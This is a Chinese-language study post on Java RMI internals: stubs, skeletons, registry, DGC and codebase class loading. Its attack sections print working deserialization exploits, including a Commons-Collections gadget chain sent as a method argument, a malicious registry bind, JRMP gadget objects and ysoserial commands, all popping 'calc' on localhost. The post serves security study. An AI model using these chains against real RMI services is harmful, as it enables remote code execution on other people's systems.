



# 0x01 What is RMI

`RMI：Remote Method Invocation` 远程方法调用。

* RMI为应用提供了远程调用的接口（Java的RPC框架）
* 调用远程位置对象的方法
* 实现RMI的协议叫JRMP
* RMI实现过程存在Java对象的传递，因此涉及到反序列化

# 0x02 Procedure Glance

两个概念：客户端存根（stubs）、服务端骨架（skeletons）

> 为屏蔽网络通信的复杂性，RMI引入两个概念，客户端存根Stub和服务端骨架Skeleton
>
> * 当Client试图调用一个远端的Object，实际调用的是客户端本地的一个代理类（就是Stub）
>
> * 调用Server的目标类之前，会经过一个远端代理类（就是Skeleton），它从Stub接收远程方法调用并传递给真正的目标类
> * Stub和Skeleton的调用对于RMI服务的使用者是隐藏的

所以整个RMI的流程大概为

1. 客户端调用Stub上的方法
2. Stub打包调用信息（方法名、参数），通过网络发送给Skeleton
3. Skeleton将Stub发来的信息解包，找到目标类和方法
4. 调用目标类的方法，并将结果返回给Skeleton
5. Skeleton将调用结果打包，发送给Stub
6. Stub解包并返回给调用者


代码规则

* 客户端和服务端都需定义用于远程调用的接口
* 接口必须继承`java.rmi.Remote`接口
* 接口中的方法都要抛出`java.rmi.RemoteException`异常
* 服务端创建接口实现类，实现接口定义的方法
* 实现类继承`java.rmi.server.UnicastRemoteObject`

这里要求实现类继承`UnicastRemoteObject`，方便自动将这个远程对象导出供客户端调用

当然不继承也行，但后面得手动调用`UnicastRemoteObject#exportObject`，导出对象时可以指定监听端口来接收`incoming calls`，默认为随机端口。由上图可知远程对象会被注册到`RMI Registry`中，所以实际上不需要通过注册中心，只要我们知道导出的远程对象监听的端口号，也可以和它直接通信。

`RMI Registry`注册中心存储着远程对象的引用（Reference）和其绑定的名称（Name），客户端通过名称找到远程对象的引用（Reference），再由这个引用就可以调用到远程对象了。

📌服务端

创建用于远程调用的接口：

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello(Object s) throws RemoteException;
    String sayGoodBye() throws RemoteException;
}
```

接口实现类：

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteHello extends UnicastRemoteObject implements Hello{
    protected RemoteHello() throws RemoteException {
    }

    @Override
    public String sayHello(Object s) throws RemoteException {
        System.out.println("sayHello Called");
        return "Hello " + s;
    }

    @Override
    public String sayGoodBye() throws RemoteException {
        System.out.println("sayGoodbye Called");
        return "Bye~";
    }
}
```

注册远程对象
使用`LocateRegistry#createRegistry()`来创建注册中心，`Registry#bind()`进行绑定

```java
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        LocateRegistry.createRegistry(1099);
        RemoteHello hello = new RemoteHello();
        Naming.bind("rmi://127.0.0.1:1099/hello", hello);
    }
}
```

`java.rmi.Naming`用来对注册中心进行操作，提供lookup、bind、rebind、unbind、list这些方法来查询、绑定远程对象。

这些方法的第一个参数都接收一个URL字符串，`rmi://host:port/name`，表示注册中心所在主机和端口，远程对象引用的名称。

一般注册中心和服务端都在同一主机。

📌客户端

同样客户端需要定义和服务端相同的远程接口，然后进行调用

`LocateRegistry#getRegistry()`连接注册中心，`Registry#lookup()`获取远程对象的存根，通过名称查找

注册中心默认端口1099

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Hello hello = (Hello) registry.lookup("hello");

        System.out.println(hello.sayHello("taco"));
        System.out.println(hello.sayGoodBye());
    }
}
```

RMI支持动态类加载来进行反序列化。上面的远程方法调用涉及方法参数的传递，若客户端传递了一个服务端不存在的类对象，服务端如何进行反序列化呢？若设置了`java.rmi.server.codebase`，则服务端会尝试从其地址加载字节码。

```java
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8888/");
```

客户端创建此类`Calc`

```java
import java.io.IOException;
import java.io.Serializable;

public class Calc implements Serializable {
    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        s.defaultReadObject();
    }
}
```

服务端需要增加如下安全管理器和安全策略的设置，这里直接给足权限

```java
System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("rmi.policy").toString());
if (System.getSecurityManager() == null) {
    System.setSecurityManager(new RMISecurityManager());
}
```


# 0x03 Deep Source

## 远程对象创建

```java
RemoteHello remoteHello = new RemoteHello();
```

`RemoteHello`继承了`UnicastRemoteObject`，实例化时会调用父类的构造方法，用于创建和导出远程对象，这个对象通过`RMISocketFactory`创建的服务端套接字来导出。`port=0`会选择一个匿名(随机)端口，导出的远程对象通过这个端口号来接收发送进来的调用请求。


```java
protected UnicastRemoteObject(int port) throws RemoteException{
    this.port = port;
    exportObject((Remote) this, port);
}
```

接着传入端口号创建了一个`UnicastServerRef`对象（远程引用）

这个对象存在多层封装，与网络连接有关，这里跳过。


`UnicastServerRef`对象被传入了远程对象的ref属性，即这个远程对象的远程引用。

接着进入`UnicastServerRef#exportObject`



存根Stub出现了！它是通过`sun.rmi.server.Util#createProxy()`创建的代理类

跟进`createProxy`可以看到熟悉的`Proxy.newProxyInstance()`创建动态代理。


`clientRef`是上面创建的`UnicastServerRef`的`LiveRef`属性封装的一个`UnicastRef`


这里的`RemoteObjectInvocationHandler`关系到远程方法的调用，下文在客户端讲解。

接着返回到`exportObject`方法


（先说一下这里的`hashToMethod_Map`存储的是方法哈希和方法的对应关系，后面远程调用是根据方法哈希找到方法的）

创建了一个`sun.rmi.transport.Target`对象

这个Target对象封装了生成的动态代理类stub还有远程对象impl，再通过`LiveRef#exportObject`将target导出


`listen()`为stub开启随机端口，在`TCPTransport#exportObject`将target注册到`ObjectTable`中


最后target是被放入`objTable`和`implTable`中

从键`oe`、`weakImpl`可以看出，`ObjectTable`提供`ObjectEndpoint`和`Remote实例`两种方式来查找`Target`


## 注册中心创建

```java
Registry r = LocateRegistry.createRegistry(9999);
```



传入端口号创建`sun.rmi.registry.RegistryImpl`

这里说注册中心的导出和`UnicastRemoteObject#exportObject`的导出逻辑一样

不同的是注册中心的对象标识符是一个特殊的ID 0，客户端第一次连接时才能通过这个id找到注册中心


同样`LiveRef`对象与网络有关，这里给`LiveRef`传入了特殊id——0，接着调用`setup()`


依旧调用`UnicastServerRef#exportObject`，不过上面导出的是`UnicastRemoteObject`，这里导出的是`RegistryImpl`


同样进行动态代理创建，不过上面导出`UnicastRemoteObject`的过程略过了这一步分析 —— `stubClassExists`的判断

`stubClassExists`会判断该远程对象是否有对应的stub类，格式为`Xxx_Stub`，若没有找到该类则`Class.forName`抛出异常，并把这个远程对象放入`withoutStubs`这个Map。

比如上面导出`UnicastRemoteObject`中，会去找`RemoteHello_Stub`

而现在要导出的是`RegistryImpl`，会去找`RegistryImpl_Stub`


获取委托类（这里是`RegistryImpl`）的名字后面加`_Stub`看是否存在

全局一搜还真有，`sun.rmi.registry.RegistryImpl_Stub`

看一眼这个类，它实现了`Registry`接口，并重写了很多常用方法如`bind`、`lookup`、`list`、`rebind`、`unbind`

这些方法的实现过程可以看到都用到了`readObject`、`writeObject`来实现的，即序列化和反序列化，也就是注册中心负责序列化和反序列化。

返回到动态代理的创建，接着`createStub`，通过反射实例化`RegistryImpl_Stub`实例对象


`createStub`之后判断stub是否为`RemoteStub`实例（`RegistryImpl_Stub`继承了`RemoteStub`），进入`setSkeleton`


`Util.createSkeleton`方法创建skeleton


和`createStub`类似，通过反射实例化`RegistryImpl_Skel`

接下来依旧是封装target对象，将`ResgitryImpl`和`RegistryImpl_Stub`封装成Target

`LiveRef#exportObject`将target导出，开启监听端口，放入`objTable`和`implTable`

`put`之后`objTable`有三个值

* DGC垃圾回收
  
  
  
* 创建的远程对象：stub为动态代理对象，skel为null
  
  
  
* 注册中心：stub为`RegistryImpl_Stub`、skel为`RegistryImpl_Skel`

  

由上可知注册中心就是一个特殊的远程对象

和普通远程对象创建的差异：

* LiveRef的id为0
* 远程对象Stub为动态代理，注册中心的Stub为`RegistryImpl_Stub`，同时还创建了`RegistryImpl_Skel`
* 远程对象端口默认随机，注册中心端口默认1099

## 服务注册

一般注册中心和服务端都在一起，`createRegistry`直接调用其`bind`方法即可

这里的`Registry`是`RegistryImpl`

```java
r.bind("hello", remoteHello);
```


把name和obj放到`bindings`这个hashtable中

若调用的是`Naming#bind`


这里`getRegistry`获取到的是`RegistryImpl_Stub`，具体流程在下面的客户端请求注册中心中讲解。

## 客户端请求注册中心-客户端

```java
Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
```


通过传入的host和port创建一个`LiveRef`用于网络请求（注意这里传入的ObjID也是0），通过`UnicastRef`进行封装。

然后和注册中心的逻辑相同，尝试创建代理，这里获取了一个`RegistryImpl_Stub`对象

接着通过`lookup`与注册中心通信，查找远程对象获取存根

```java
Hello stub = (Hello) r.lookup("hello");
```

进入`RegistryImpl_Stub`的`lookup`


🚩`readObject`被调用

* `newCall`建立与远程注册中心的连接
* 通过序列化将要查找的名称写入输出流（这里是hello）
* 调用`UnicastRef`的invoke方法（invoke会调用`StreamRemoteCall#executeCall`，释放输出流，调用远程方法，将结果写进输入流）
* 获取输入流，将返回值进行反序列化，得到远程对象的动态代理Stub

`UnicastRef#invoke`具体下文分析

看一下这里`StreamRemoteCall`的创建，`UnicastRef#newCall`


这里写入了opnum，`bind/0`、`list/1`、`lookup/2`对应不同的opnum，

同时写入了`ref.getObjID()`

* 对于`RegistryImpl_Stub`，这里就是0
* 对于普通远程对象的动态代理Stub，这里就是其对应的id

若这里是服务端，将进行`bind`操作，将远程对象及其名称🚩序列化后传给注册中心


## 客户端请求注册中心-注册中心

注册中心由`sun.rmi.transport.tcp.TCPTransport#handleMessages`来处理请求

根据数据流的第一个操作数数值决定如何处理数据，主要当然是`Call`操作

创建了一个`StreamRemoteCall`（和客户端一样），进入`serviceCall`


由target获取到`UnicastServerRef`远程对象引用`disp`，以及远程对象`impl`（这里是`RegistryImpl`）

进入`UnicastServerRef#dispatch(impl,call)`


该方法负责将方法调用分发给服务端的远程对象，以及序列化服务端调用返回的结果

判断`skel`是否为空来区别`RegistryImpl`和`UnicastRemoteObject`（即区别注册中心和普通远程对象）

这里的num是操作数（上面的opnum），接着进入`oldDispatch`


接着调用`RegistryImpl_Skel#dispatch`，根据opnum进行不同的处理


这里是2对应`lookup`，从数据流中读取名称字符串


从`bindings`中获取


获取完后将序列化的值传过去

若这里是服务端进行的bind请求：反序列化得到远程对象和其名称


再放入bindings这个HashMap中


## 客户端请求服务端-客户端

```java
stub.sayHello()
```

客户端调用服务端远程对象，还记得上面服务端的远程对象创建中，使用`Proxy.newProxyInstance()`创建了远程对象的动态代理Stub

`Hello stub = (Hello) r.lookup("hello");`已经获取到了这个远程对象的动态代理

`InvocationHandler`中已经包含了远程对象对应的`UnicastRef`，即可以获取远程对象对应的id

`RemoteObjectInvocationHandler#invoke`


* 如果调用的是Object声明的方法（`getClass`、`hashCode`、`equals`之类的），接`invokeObjectMethod`
* 若调用的是远程对象自己的方法，接`invokeRemoteMethod`


`invokeRemoteMethod`中实际委托`RemoteRef`的子类`UnicastRef#invoke`来执行

`invoke`传入了`getMethodHash(method)`，方法的哈希值，后面服务端会根据这个哈希值找到相应的方法

`UnicastRef`的`LiveRef`属性包含`Endpoint`、`Channel`封装与网络通信有关的方法，其中包含服务端该stub对应的监听端口


若方法有参数，调用`marshalValue`将参数序列化，并写入输出流


接着调用`executeCall`


`releaseOutputStream()`释放输出流，即发送数据给服务端

`getInputStream`读取返回的数据，写到`in`中


注意这里读取返回数据流中的返回类型，若返回类型为`异常返回`，直接进行反序列化🚩


若为正常返回，通过`unmarshalValue()`去反序列化获取返回值


先判断方法的返回类型是否为基本类型，不是的话调用原生反序列化。🚩`readObject`被调用

## 客户端请求服务端-服务端

和`客户端请求注册中心-注册中心`类似，`sun.rmi.transport.tcp.TCPTransport#handleMessages`

到`UnicastServerRef#dispatch()`，这次`num=-1`直接跳过`skel`的判断。


根据哈希值从`hashToMethod_Map`获取`Method`，`unmarshalValue`反序列化传入的参数。🚩`readObject`被调用

释放输入流后，调用`Method#invoke`，到这终于算远程方法调用到了


最后序列化调用结果，写入输出流，返回给客户端


## DGC

服务端通过`ObjectTable#putTarget`将注册的远程对象放入`objTable`中，里面有默认的`DGCImpl`对象

DGCImpl的设计是单例模式，这个类是RMI的分布式垃圾回收类。和注册中心类似，也有对应的`DGCImpl_Stub`和`DGCImpl_Skel`，同样类似注册中心，客户端本地也会生成一个`DGCImpl_Stub`，并调用`DGCImpl_Stub#dirty`，用来向服务端”租赁”远程对象的引用。

当注册中心返回一个Stub给客户端时，其跟踪Stub在客户端中的使用。当再没有更多的对Stub的引用时，或者如果引用的“租借”过期并且没有更新，服务端将垃圾回收远程对象。`dirty`用来续租，`clean`用来清除远程对象。

租期默认10分钟，`DGCImpl`的ObjId为2


`DGCImpl`的静态代码块中进行类实例化，并封装为target放入`objTable`。


哪里触发的这个静态代码块？其实每有一个Target被创建，都会调用到`DGCImpl`去监控这个对象。

但一般最早被触发应该是`LocateRegistry#createRegistry`创建注册中心时。


`permanent`默认为true，进入`pinImpl`


`DGCImpl_Stub#dirty`


* invoke => UnicastRef#invoke => executeCall()  => readObject()
* 获取输入流、readObject，🚩`readObject`被调用

服务端：handleMessages => UnicastServerRef#dispatch => oldDispatch

最后进入`DGCImpl_Skel#dispatch`


两个case分支都有readObject，🚩`readObject`被调用

# 0x04 SumUp

上面记了一堆流水账，大概总结一下服务创建、发现、调用的过程

服务注册：

* 远程对象创建
  * 远程对象继承`UnicastRemoteObject`，`exportObject`用于将这个对象导出，每个远程对象都有对应的远程引用（`UnicastServerRef`）
  * 对象导出是指，创建远程对象的动态代理，并将对象的方法和方法哈希存储到远程引用的`hashToMethod_Map`里，后面客户端通过传递方法哈希来找到对应的方法。同时开启一个socket监听到来的请求。远程对象、动态代理和对象id被封装为Target，target会被存储到`TCPTransport`的`objTables`里，后面客户端通过传递对象id可获取到对应target。
  * 动态代理Stub中含有这个远程对象的联系方式（`LiveRef`，包括主机、端口、对象id）
* 注册中心创建
  * `LocateRegistry#createRegistry`用于创建注册中心`RegistryImpl`
  * 注册中心是一个特殊的远程对象，对象id为0
  * 导出时不会创建动态代理，而是找到`RegistryImpl_Stub`，同时创建了对应的骨架`RegistryImpl_Skel`，Stub会被序列化传递给客户端，其重写了`Registry`的`lookup`、`bind`等方法，会对传输和接收的数据流进行序列化和反序列化
  * 后面的socket端口监听、target存储到`objTables`和远程对象的导出一致
* 将远程对象注册到服务中心
  * 一般注册中心和服务端都在一起，可直接调用`createRegistry`返回的`RegistryImpl#bind`，也可以用`Naming#bind`，后者是通过`RegistryImpl_Stub`将服务名称和远程对象的动态代理Stub序列化后传递给注册中心，注册中心再进行`RegistryImpl#bind`

服务发现：

* `LocateRegistry.getRegistry`用于获取注册中心的Stub，即`RegistryImpl_Stub`，过程和注册中心的创建一样，都是调用`Util#createProxy`
* 注册中心实际上相当于一个客户端知道其端口号的远程对象
* `RegistryImpl_Stub#lookup`首先建立与注册中心的连接，服务名称序列化后写入输出流，释放输出流，等待远程返回，获取输入流进行反序列化，得到远程对象的动态代理Stub
* `TCPTransport`负责处理到来的数据，根据对象id获取对应的target，接着获取target中存储的`UnicastServerRef`
* `UnicastServerRef#dispatch`通过客户端传递的一个num来区别是对注册中心的操作（≥0）还是对普通远程对象的操作（＜0）
* `RegistryImpl_Skel`调用`RegistryImpl#lookup`，通过服务名称获取对应Stub，接着序列化返回给客户端

服务调用：

* 通过上面的`RegistryImpl_Stub#lookup`已经获取到远程对象的动态代理Stub，客户端可以直接和服务端通信了
* 对动态代理进行方法调用会触发其`invoke`，进一步交给了`UnicastRef#invoke`，将方法哈希、参数序列化写入输出流，`StreamRemoteCall#executeCall`释放输出流，获取远程返回的输入流，回到`UnicastRef`对返回值进行反序列化
* 服务端通过num为-1判断这不是对注册中心的操作，接着根据哈希值从`hashToMethod_Map`找到`Method`，反序列化参数，序列化调用结果，写入输出流返回给客户端

彻底晕了😵不得不佩服RMI的设计者

# 0x05 CodeBase

RMI的一个特点就是动态加载类，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class

`java.rmi.server.codebase`属性值表示一个或多个URL位置，可以从中下载本地找不到的类，相当于一个代码库。

服务端和客户端都支持这个功能。

无论是客户端还是服务端要远程加载类，都需要满足以下条件：

- 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置`java.security.policy`。
- 属性`java.rmi.server.useCodebaseOnly`的值必需为false。但是从 **JDK 6u45、7u21** 开始，`java.rmi.server.useCodebaseOnly` 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的`java.rmi.server.codebase`指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类。

服务端增加如下配置

```java
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:9999/");
System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("rmi.policy").toString());
if (System.getSecurityManager() == null) {
    System.setSecurityManager(new RMISecurityManager());
}
```

客户端自定义一个类

```java
import java.io.IOException;
import java.io.Serializable;

public class ClientObject implements Serializable {
    @Override
    public String toString() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return "hacked";
    }
}
```

换一下接口

```java
@Override
public String sayHello(Object s) throws RemoteException {
    System.out.println("sayHello Called");
    return "Hello " + s;
}
```


反序列化参数的时候，若在本地找不到参数类，会根据codebase是否开放来决定从哪加载。


判断`useCodeBaseOnly`是否为`false`


通过`RMIClassLoader.loadClass`来加载类


这里传入的codebase是null，实际上这个codebase是可以由客户端指定的，原因也很简单，客户端传的参数，当然是由客户端告诉服务端这个参数类去哪找。这么危险的操作，难怪后面的版本会默认禁用codebase。。。。

这里是通过`getDefaultCodebaseURLs()`获取的，得到的是服务端配置的codebase

接下来`loadClass`判断了是否有设置`SecurityManager`，并获取到了一个类加载器


`sun.rmi.server.LoaderHandler$Loader`这个类加载器是`URLClassLoader`的子类

最后`Class<?> c = loadClassForName(name, false, loader);`


`Class.forName`指定了这个加载器去加载。后面会实例化这个类

# 0x06 Attack RMI

上面有`readObject`进行反序列化的地方存在被攻击的隐患

1. 攻击客户端
   * RegistryImp_Stub#lookup   反序列化注册中心返回的Stub
   * UnicastRef#invoke  反序列化远调方法的执行结果
   * StreamRemoteCall#executeCall  反序列化远程调用返回的异常类
   * DGCImpl_Stub#dirty
2. 攻击服务端
   * UnicastServerRef#dispatch     反序列化客户端传递的方法参数
   * DGCImpl_Skel#dispatch
3. 攻击注册中心
   * RegistryImp_Stub#bind  注册中心反序列化服务端传递传来的远程对象

## 攻击服务端

服务端：UnicastServerRef#dispatch 调用了`unmarshalValue`来反序列化客户端传来的远程方法参数

### 远程方法参数为Object

客户端将参数设为payload即可(下面使用CC6)

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Hello extends Remote {
    String sayHello(Object name) throws RemoteException;
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class Client {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        stub.sayHello(getPayload());
    }

    public static Object getPayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;
    }
}
```

### 远程方法参数非Object

修改服务端接口

```java
public class HelloObject {
    @Override
    public String toString() {
        return "HelloObject{}";
    }
}
String sayGoodBye(HelloObject o) throws RemoteException;
```

继续使用上面的payload，报错`unrecognized method hash: method not supported by remote object`

因为客户端方法的哈希和服务端方法的哈希不同，`hashToMethod_Map`找不到对应的方法。

只要修改客户端发送的方法哈希值和服务端的一样就行了。

客户端的接口也添加一个同服务端相同的方法

```java
public interface Hello extends Remote {
    String sayHello(Object s) throws RemoteException;
    String sayGoodBye(Object o) throws RemoteException;
    String sayGoodBye(HelloObject o) throws RemoteException;  👈Same as Server's
}
```

调试的时候，在`RemoteObjectInvocationHandler`调用`invokeRemoteMethod`的时候修改method，下面`getMethodHash(method)`获取到的哈希就和服务端的一样了。


也可以通过`Java Agent`技术进行字节码插桩，以此来修改方法哈希

### 远程类加载

上面说过，RMI反序列化参数的时候，若在本地找不到类，会在指定的codebase下加载类，而codebase可以由客户端指定


## 攻击注册中心

注册中心和服务端是可以分开的，服务端可以使用`Naming`提供的接口来操作注册中心

```java
Naming.bind("rmi://127.0.0.1:1099/hello", hello);
```


这里获取到的就是`Registry`的动态代理`ResgitryImpl_Stub`，同样`bind`和上面的`lookup`类似，不过就是操作数改变了。

依然存在序列化和反序列化。服务端将待绑定的对象序列化，注册中心收到后反序列化。

目前来看，貌似注册中心没有身份验证的功能，客户端都可以进行`bind`、`unbind`、`rebind`这些操作。

`bind`的参数要求是`Remote`类型，可以用CC1中的`AnnotationInvocationHandler`来动态代理`Remote`接口，反序列化的时候map的键值对都会分别反序列化。

```java
HashMap<String, Object> map = new HashMap<>();
map.put("p4d0rn", getPayload());

Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);
Remote remote = (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, invocationHandler);

Naming.bind("rmi://127.0.0.1:1099/test", remote);
```

## 攻击客户端

客户端的攻击和上面的都类似，大概就下面几个攻击点

* 恶意Server返回方法调用结果
* 恶意Registry返回Stub
* 动态类加载（Server返回的调用结果若为客户端不存在的类，客户端也支持动态加载）

## 攻击DGC

DGCImpl_Stub#dirty

DGCImpl_Skel#dispatch

见ysoserial的`exploit.JRMPListener`和` exploit.JRMPClient `

# 0x07 Deser Gadgets

## UnicastRemoteObject

反序列化时会重新导出远程对象


接下来的流程就和上面的一致了，不过这里的端口我们可以指定。

下面就是触发JRMP监听端口（`TCPTransport#listen`），会对请求进行反序列化，对应`ysoserial.payloads.JRMPListener`，不过它是用的`ActivationGroupImpl`(`UnicastRemoteObject`的一个子类)

```java
public static void main(String[] args) throws Exception {
    Class<?> clazz = Class.forName("sun.misc.Unsafe");
    Field unsafeField = clazz.getDeclaredField("theUnsafe");
    unsafeField.setAccessible(true);
    Unsafe unsafe = (Unsafe) unsafeField.get(null);
    Class<?> uroClazz = Class.forName("java.rmi.server.UnicastRemoteObject");
    Object uro = unsafe.allocateInstance(uroClazz);
    setFiled(uro, "port", 12233);
    setFiled(uro, "ref", new UnicastServerRef(12233));
    ser(uro);
}

public static void setFiled(Object o, String name, Object value) throws Exception {
    Class<?> superClazz = o.getClass();
    Field f = null;
    while (true) {
        try {
            f = superClazz.getDeclaredField(name);
            break;
        } catch (NoSuchFieldException e) {
            superClazz = superClazz.getSuperclass();
        }
    }
    f.setAccessible(true);
    f.set(o, value);
}

public static void ser(Object o) throws Exception {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(o);

    Object oo = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray())).readObject();
    Thread.sleep(100000);
}
```

可以用`ysoserial.exploit.JRMPClient`去打，其原理是与DGC通信发送恶意payload让服务端进行反序列化

`java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 12233 CommonsCollections5 "calc"`

注意上面用`Object oo`接收了反序列化的结果，若不加这个打不通，猜测是因为Stub没被引用导致被垃圾回收了，监听的端口自然断开了，`ysoserial.exploit.JRMPClient`连不上去。

## UnicastRef

`UnicastRef`实现了`Externalizable`接口，反序列化时会调用`readExternal`


`LiveRef#read`用于恢复`ref`属性


`DGCClient.registerRefs`将其注册，用于垃圾回收


`makeDirtyCall`即调用`dirty`




接着就是发送DGC请求了，可以让其与一个恶意服务通信，返回恶意数据流，则会造成反序列化漏洞。配合`ysoserial.exploit.JRMPListener`构造恶意RMI服务，伪造`异常返回`，让客户端反序列化异常对象。

```java
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
ser(ref);
```

`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12233 CommonsCollections5 "calc"`


## RemoteObject

之前说过，每个远程对象`RemoteObject`都有一个`RemoteRef`作为其远程引用，上一条链子的`UnicastRef`也是`RemoteRef`的子类。`RemoteObject#readObject`会先恢复`ref`属性，就会调用到它的`readExternal`了


随便找一个`RemoteObject`的子类，将`UnicastRef`作为其`ref`属性，接下来和上面的链子一样。对应`ysoserial.payloads.JRMPClient`，不过它是用的`RemoteObjectInvocationHandler`，也就是创建动态代理Stub那一套

```java
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RegistryImpl_Stub stub = new RegistryImpl_Stub(ref);
ser(stub);
```

## Summary

总结一下：

> * exploit
>   * JRMPListner：构造恶意JRMP服务器，返回异常让客户端反序列化 `StreamRemoteCall#executeCall`
>   * JRMPClient：发送恶意序列化数据，打DGC服务 `DGCImpl_Skel#dispatch`
> * payloads
>   * JRMPListner：`UnicastRemoteObject`反序列化时会导出对象，触发JRMP监听端口，配合exploit.JRMPClient打
>   * JRMPClient：`UnicastRef`反序列化时会触发DGC的`ditry`，配合exploit.JRMPListner打

注意到上面的反序列化链子最终触发的还是反序列化，因此JRMP适用于二次反序列化。

后面还有JEP290的RMI绕过，放后面去讲了。

# 0x08 Ref

* https://su18.org/post/rmi-attack 👍

